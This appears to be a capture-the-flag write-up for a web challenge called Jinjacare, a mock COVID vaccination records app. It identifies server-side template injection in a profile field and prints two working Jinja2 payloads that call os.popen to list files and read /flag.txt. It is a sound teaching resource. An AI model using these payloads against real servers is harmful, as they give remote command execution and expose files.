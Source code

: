 ```yaml
---
title: Jinjacare - Hack The System
description: JinjaCare is a web application designed to manage COVID-19 vaccination records. It allows users to view their personal information, medical history, and generate digital vaccination certificates. Your task is to discover vulnerabilities in the system and extract the hidden flag.
author: 
date: 2025-06-30 20:00:00 +0800
categories: [CTF, Web]
tags: [writeup, web, ssti]
image:
  path: assets/posts/Pasted image 20250731080047.png
  alt: A cool background image
---
```


**Challenge**  
“Jinjacare is a web application designed to help citizens manage and access their COVID-19 vaccination records. The platform allows users to store their vaccination history and generate digital certificates. They’ve asked you to hunt for any potential security issues in their application and retrieve the flag stored in their site.”

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#jinja2

![](/assets/posts/Jinjacare/assets/1.png)

![](/assets/posts/Jinjacare/assets/2.png)

after registering for an account. There is a form field on personal info. The input for update personal info is not being validated, injectionion attacks are possible here in edit profile.

The profile update reflect on dashboard page, download certificate. The input field of vaccine name is vulnerable to ssti

![](/assets/posts/Jinjacare/assets/3.png)


```python
{% raw %}
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
{% endraw %}
```

```python
{% raw %}
{{config.__class__.__init__.__globals__['os'].popen('cat /flag.txt').read()}}
{% endraw %}
```

![](/assets/posts/Jinjacare/assets/4.png)